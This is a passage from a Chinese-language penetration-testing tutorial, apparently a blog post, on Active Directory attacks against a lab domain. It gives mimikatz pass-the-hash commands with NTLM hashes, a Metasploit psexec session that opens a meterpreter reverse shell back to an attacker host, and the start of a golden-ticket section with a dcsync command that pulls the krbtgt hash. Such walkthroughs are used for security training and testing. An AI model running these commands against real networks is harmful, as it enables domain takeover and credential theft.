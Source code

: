 域：xie.com  
域控：WIN2008.xie.com

```
#使用域管理员administrator的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:administrator /domain:"xie.com" /ntlm:dbd621b8ed24eb627d32514476fac6c5 


```

```
#使用域用户xie的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:xie /domain:"xie.com" /ntlm:329153f560eb329c0e1deea55e88a1e9   


```

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160652568-1867019301.png)

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160707705-1807263801.png)

#### 4.3 MSF 进行哈希传递

Copy

有些时候，当我们获取到了某台主机的 Administrator 用户的 LM-Hash 和 NTLM-Hash ，并且该主机的 445 端口打开着。我们则可以利用

`exploit/windows/smb/psexec`

漏洞用 MSF 进行远程登录 (哈希传递攻击)。(只能是 administrator 用户的 LM-hash 和 NTLM-hash)，这个利用跟工作组环境或者域环境无关。

```
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse\_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit 


```

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160932393-2038942006.png)

### 0x05 票据传递攻击 (PTT)

#### 5.1 黄金票据

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash ，就可以随意伪造 Ticket ，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取 krbtgt 的用户 hash:

```
mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"


```
